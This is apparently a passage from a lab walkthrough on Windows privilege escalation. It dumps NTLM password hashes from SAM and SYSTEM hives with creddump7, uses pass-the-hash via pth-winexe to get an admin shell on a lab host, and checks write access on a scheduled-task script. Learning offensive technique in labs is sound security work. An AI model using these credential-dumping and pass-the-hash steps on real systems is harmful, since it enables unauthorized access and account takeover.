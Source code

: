 Let's change library:

```bash
joshua@kaligra:/opt/tools$ pip3 install pycryptodome
Defaulting to user installation because normal site-packages is not writeable
Collecting pycryptodome
  Downloading pycryptodome-3.18.0-cp35-abi3-manylinux_2_17_x86_64.manylinux2014_x86_64.whl (2.1 MB)
     ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 2.1/2.1 MB 9.9 MB/s eta 0:00:00
Installing collected packages: pycryptodome
Successfully installed pycryptodome-3.18.0
```

Now we can extract hashes:

```bash
joshua@kaligra:/opt/tools$ python3 creddump7/pwdump.py SYSTEM SAM
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:6ebaa6d5e6e601996eefe4b6048834c2:::
user:1000:aad3b435b51404eeaad3b435b51404ee:91ef1073f6ae95f5ea6ace91c09a963a:::
admin:1001:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::
```

## pass the hash

Once we get password hashes, we can access remotely with `pth-winexe`:

```bash
joshua@kaligra:/opt/tools$ pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //10.10.96.135 cmd.exe
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
win-qba94kb3iof\admin

C:\Windows\system32>
```

## scheduled tasks

Let's assume there is a powershell script that runs as scheduled task: `C:\DevTools\CleanUp.ps1`


Let's check privileges:

```
C:\Windows\system32>C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
RW C:\DevTools\CleanUp.ps1
        FILE_ADD_FILE
        FILE_ADD_SUBDIRECTORY
        FILE_APPEND_DATA
        FILE_EXECUTE
        FILE_LIST_DIRECTORY
        FILE_READ_ATTRIBUTES
        FILE_READ_DATA
        FILE_READ_EA
        FILE_TRAVERSE
        FILE_WRITE_ATTRIBUTES
        FILE_WRITE_DATA
        FILE_WRITE_EA
        DELETE
        SYNCHRONIZE
```